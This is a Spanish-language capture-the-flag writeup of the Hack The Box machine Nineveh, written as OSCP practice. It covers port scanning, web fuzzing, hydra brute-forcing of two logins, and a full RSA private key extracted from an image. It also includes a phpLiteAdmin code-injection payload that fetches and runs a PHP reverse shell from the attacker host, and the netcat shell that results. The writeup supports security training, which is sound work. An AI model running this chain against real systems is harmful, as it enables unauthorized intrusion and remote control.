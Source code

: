 ```yaml
---
layout: post
title:  "OSCP Path ~ Nineveh Hack The Box (Necesario VIP)"
description: Writeup de la maquina de HackTheBox llamada NINEVEH siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Fueza Bruta, Hydra, Steganografia, LFI, phpLiteAdmin, RCE, PortKnocking, SSH, Chkrootkit, CRON, Maquinas Retiradas, Writeup, Hacking
---
```


# Lame ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.43       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
# nmap -sC -sV -p80,443 10.10.10.43 -oN target                                                                                                                                                                1 ⚙

Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-10 12:31 CEST
Nmap scan report for 10.10.10.43
Host is up (0.054s latency).

PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=nineveh.htb/organizationName=HackTheBox Ltd/stateOrProvinceName=Athens/countryName=GR
| Not valid before: 2017-07-01T15:03:30
|_Not valid after:  2018-07-01T15:03:30
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
```
Encontramos un dominio para meter en nuestro /etc/hosts

Lanzamos el script de `nmap http-enum` a nivel web
```bash
PORT   STATE SERVICE
80/tcp open  http
| http-enum: 
|_  /info.php: Possible information file
```
Lanzamos la herramienta `Whatweb`
```bash
# whatweb http://10.10.10.43                                                                                                                                                                                  1 ⚙
http://10.10.10.43 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.43]
```
Probamos a hacer un fuzzing a nivel del dominio web encontrado 
```bash
# wfuzz -c -L --hc=404 -t 200 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt https://nineveh.htb/FUZZ                                                                                  130 ⨯ 1 ⚙
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://nineveh.htb/FUZZ
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000000835:   200        485 L    974 W      11430 Ch    "db"                                                                                                                                               
000045227:   200        1 L      3 W        49 Ch       "https://nineveh.htb/"                                                                                                                             
000095511:   403        11 L     32 W       300 Ch      "server-status"                                                                                                                                    
000095763:   200        5 L      7 W        71 Ch       "secure_notes"                                                                                                                                     
```

Chequeamos la web version http y fuzzeamos como en https a ver si encontramos lo mismo o no.
```bash
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.43/FUZZ
Total requests: 220547

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                                            
=====================================================================

000003008:   200        1 L      3 W        68 Ch       "department" 
```
Encontramos un login `/department/` a nivel de `http://10.10.10.43/`

En el cual tambien podemos probar a hacer fuerza bruta, y probando usuarios vemos que para el usuario Admin tenemos una respuesta diferente dandonos a entender que el usuario 
admin existe a nivel del loguin web.
```bash
# hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-form-post "/department/login.php:username=^USER^&password=^PASS^:Invalid Password\!" -V -t 64

[80][http-post-form] host: 10.10.10.43   login: admin   password: 1q2w3e4r5t
1 of 1 target successfully completed, 1 valid password found
```


A nivel `https://nineveh.htb/` encontramos que en la ruta `secure_notes` hay una imagen de extension `.php`.
Nos la descargamos y miramos a ver si encontramos algo interesante:
```bash
Sacamos informacion oculta de la imagen en .png encontrada en la ruta https://nineveh.htb/secure_notes/nineveh.png 

-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAri9EUD7bwqbmEsEpIeTr2KGP/wk8YAR0Z4mmvHNJ3UfsAhpI
H9/Bz1abFbrt16vH6/jd8m0urg/Em7d/FJncpPiIH81JbJ0pyTBvIAGNK7PhaQXU
PdT9y0xEEH0apbJkuknP4FH5Zrq0nhoDTa2WxXDcSS1ndt/M8r+eTHx1bVznlBG5
FQq1/wmB65c8bds5tETlacr/15Ofv1A2j+vIdggxNgm8A34xZiP/WV7+7mhgvcnI
3oqwvxCI+VGhQZhoV9Pdj4+D4l023Ub9KyGm40tinCXePsMdY4KOLTR/z+oj4sQT
X+/1/xcl61LADcYk0Sw42bOb+yBEyc1TTq1NEQIDAQABAoIBAFvDbvvPgbr0bjTn
KiI/FbjUtKWpWfNDpYd+TybsnbdD0qPw8JpKKTJv79fs2KxMRVCdlV/IAVWV3QAk
FYDm5gTLIfuPDOV5jq/9Ii38Y0DozRGlDoFcmi/mB92f6s/sQYCarjcBOKDUL58z
GRZtIwb1RDgRAXbwxGoGZQDqeHqaHciGFOugKQJmupo5hXOkfMg/G+Ic0Ij45uoR
JZecF3lx0kx0Ay85DcBkoYRiyn+nNgr/APJBXe9Ibkq4j0lj29V5dT/HSoF17VWo
9odiTBWwwzPVv0i/JEGc6sXUD0mXevoQIA9SkZ2OJXO8JoaQcRz628dOdukG6Utu
Bato3bkCgYEA5w2Hfp2Ayol24bDejSDj1Rjk6REn5D8TuELQ0cffPujZ4szXW5Kb
ujOUscFgZf2P+70UnaceCCAPNYmsaSVSCM0KCJQt5klY2DLWNUaCU3OEpREIWkyl
1tXMOZ/T5fV8RQAZrj1BMxl+/UiV0IIbgF07sPqSA/uNXwx2cLCkhucCgYEAwP3b
vCMuW7qAc9K1Amz3+6dfa9bngtMjpr+wb+IP5UKMuh1mwcHWKjFIF8zI8CY0Iakx
DdhOa4x+0MQEtKXtgaADuHh+NGCltTLLckfEAMNGQHfBgWgBRS8EjXJ4e55hFV89
P+6+1FXXA1r/Dt/zIYN3Vtgo28mNNyK7rCr/pUcCgYEAgHMDCp7hRLfbQWkksGzC
fGuUhwWkmb1/ZwauNJHbSIwG5ZFfgGcm8ANQ/Ok2gDzQ2PCrD2Iizf2UtvzMvr+i
tYXXuCE4yzenjrnkYEXMmjw0V9f6PskxwRemq7pxAPzSk0GVBUrEfnYEJSc/MmXC
iEBMuPz0RAaK93ZkOg3Zya0CgYBYbPhdP5FiHhX0+7pMHjmRaKLj+lehLbTMFlB1
MxMtbEymigonBPVn56Ssovv+bMK+GZOMUGu+A2WnqeiuDMjB99s8jpjkztOeLmPh
PNilsNNjfnt/G3RZiq1/Uc+6dFrvO/AIdw+goqQduXfcDOiNlnr7o5c0/Shi9tse
i6UOyQKBgCgvck5Z1iLrY1qO5iZ3uVr4pqXHyG8ThrsTffkSVrBKHTmsXgtRhHoc
il6RYzQV/2ULgUBfAwdZDNtGxbu5oIUB938TCaLsHFDK6mSTbvB/DywYYScAWwF7
fw4LVXdQMjNJC3sn3JaqY1zJkE4jXlZeNQvCx4ZadtdJD9iO+EUG
-----END RSA PRIVATE KEY-----


ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCuL0RQPtvCpuYSwSkh5OvYoY/
/CTxgBHRniaa8c0ndR+wCGkgf38HPVpsVuu3Xq8fr+N3ybS6uD8Sbt38Umdyk+IgfzUlsnSnJMG8gAY0rs+FpBdQ91P3LTEQQfRqlsmS6Sc
/gUflmurSeGgNNrZbFcNxJLWd238zyv55MfHVtXOeUEbkVCrX
/CYHrlzxt2zm0ROVpyv/Xk5+/UDaP68h2CDE2CbwDfjFmI/9ZXv7uaGC9ycjeirC
/EIj5UaFBmGhX092Pj4PiXTbdRv0rIabjS2KcJd4+wx1jgo4tNH/P6iPixBNf7
/X/FyXrUsANxiTRLDjZs5v7IETJzVNOrU0R
amrois@nineveh.htb
```
Y encontramos al posible usuario con el que conectarnos con esta clave privada de SSH
`amrois`

Guardamos la clave ssh privada encontrada con permisos 600 y hacemos memoria, ya que en los servicios abiertos no veiamos ningun servicio ssh abierto en la maquina. 

Proseguimos por otra via enumerando el directorio o ruta `/db/`
Encontramos algo interesante en /db/
```bash
phpLiteAdmin v1.9

Warning:  rand() expects parameter 2 to be integer, float given in /var/www/ssl/db/index.php on line 114
```
Probamos a hacer fuerza bruta con `HYDRA`: 
```bash
 # hydra -l none -P /usr/share/wordlists/rockyou.txt 10.10.10.43 httpS-form-post "/db/index.php:password=^PASS^&remember=yes&login=Log+In&proc_login=true:Incorrect password." -V 
 
 [443][http-post-form] host: 10.10.10.43   login: none   "password: password123"
```
Buscamos por searchsploit:
```bash
# searchsploit phpLiteAdmin 1.9
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                    |  Path
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
PHPLiteAdmin 1.9.3 - Remote PHP Code Injection                                                                                                                                    | php/webapps/24044.txt
phpLiteAdmin 1.9.6 - Multiple Vulnerabilities                                                                                                                                     | php/webapps/39714.txt
---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Conseguimos acceder al servicio `phpLiteAdmin` 

Y leyendo la vulnerabilidad encontrada en la version 1.9.3 vemos que `creando una nueva Base de Datos` con `extension .php` podemos inyectar una nueva tabla que almacene una cadena tipo TXT en donde podemos `meterle un codigo php malicioso`
 
Creamos una nueva base de datos con `extension .php` en `phpLiteAdmin` ruta: `https://nineveh.htb/db/index.php?switchdb=%2Fvar%2Ftmp%2FninevehNotes.php` 

Nombre de la BD creada `ninevehNotes.php` le agregamos un campo `“shell” 1 de valor`,  despues llamamos `shell a la tabla`,  tipe `TXT` y le metemos el comando malicioso en php en la opcion `default Value` para que se ejecute al final.
```bash
<?php system("wget http://10.10.14.12/shell.txt -O /tmp/shell.php; php /tmp/shell.php"); ?>
```

Credenciales Obtenidas hasta el momento:
```bash
Para phpLiteAdmin: password123
Para login en Https /department/: 
User: admin 
Password: 1q2w3e4r5t
```
Entramos a la web HTTP con las credenciales y descubrimos que existe un LFI en la ruta 
```bash
http://10.10.10.43/department/manage.php?notes=/var/tmp/ninevehNotes.php
```
Habiendo creado nuestra nueva base de datos con nuestro codigo malicioso en php probamos a apuntar desde el LFI.
Apuntamos a la ruta `/var/tmp/ninevehNotes.php`

Habiendo puesto un servidor en escucha almacentando nuestra `“Reverse_Shell_PHP”` → `'shell.txt'` para que se nos envie una conexion reversa cuando se ejecute por el puerto `1234`

Montamos un servidor con python3 para postear la `shell.txt` y subirla al servidor victima
```bash
# python3 -m http.server 80                                                                              1 ⚙
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.43 - - [12/Jul/2021 16:27:05] "GET /shell.txt HTTP/1.1" 200 -
```

Obtenemos Acceso desde nuestra session a la escucha por el puerto `1234`
```bash
# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.43] 54202
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 15:54:35 up 28 min,  0 users,  load average: 0.02, 0.06, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
